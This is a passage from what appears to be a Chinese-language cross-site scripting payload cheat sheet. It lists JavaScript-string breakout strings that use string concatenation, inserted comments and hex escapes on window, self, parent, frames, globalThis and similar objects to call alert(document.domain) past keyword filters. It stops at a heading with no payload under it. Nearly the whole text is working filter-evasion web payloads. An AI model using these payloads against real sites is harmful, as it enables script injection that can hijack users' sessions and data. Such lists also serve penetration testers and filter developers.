#### **XSS 成 JavaScript 字符串:字符串串联(父级)**

```
';parent['ale'+'rt'](parent['doc'+'ument']['dom'+'ain']);//
```

#### **XSS 成 JavaScript 字符串:字符串串联(帧)**

```
';frames['ale'+'rt'](frames['doc'+'ument']['dom'+'ain']);//
```

#### **XSS 成 JavaScript 字符串:字符串串联(globalThis)**

```
';globalThis['ale'+'rt'](globalThis['doc'+'ument']['dom'+'ain']);//
```

```
';window[/*foo*/'alert'/*bar*/](window[/*foo*/'document'/*bar*/]['domain']);//
```

```
';self[/*foo*/'alert'/*bar*/](self[/*foo*/'document'/*bar*/]['domain']);//
```

```
';this[/*foo*/'alert'/*bar*/](this[/*foo*/'document'/*bar*/]['domain']);//
```

```
';top[/*foo*/'alert'/*bar*/](top[/*foo*/'document'/*bar*/]['domain']);//
```

```
';parent[/*foo*/'alert'/*bar*/](parent[/*foo*/'document'/*bar*/]['domain']);//
```

```
';frames[/*foo*/'alert'/*bar*/](frames[/*foo*/'document'/*bar*/]['domain']);//
```

```
';globalThis[/*foo*/'alert'/*bar*/](globalThis[/*foo*/'document'/*bar*/]['domain']);//
```

#### **XSS 转换成 JavaScript 字符串:十六进制转义序列(窗口)**

```
';window['\x61\x6c\x65\x72\x74'](window['\x64\x6f\x63\x75\x6d\x65\x6e\x74']['\x64\x6f\x6d\x61\x69\x6e']);//
```

#### **XSS 转换成 JavaScript 字符串:十六进制转义序列(self)**

```
';self['\x61\x6c\x65\x72\x74'](self['\x64\x6f\x63\x75\x6d\x65\x6e\x74']['\x64\x6f\x6d\x61\x69\x6e']);//
```

#### **XSS 转换成 JavaScript 字符串:十六进制转义序列(this)**

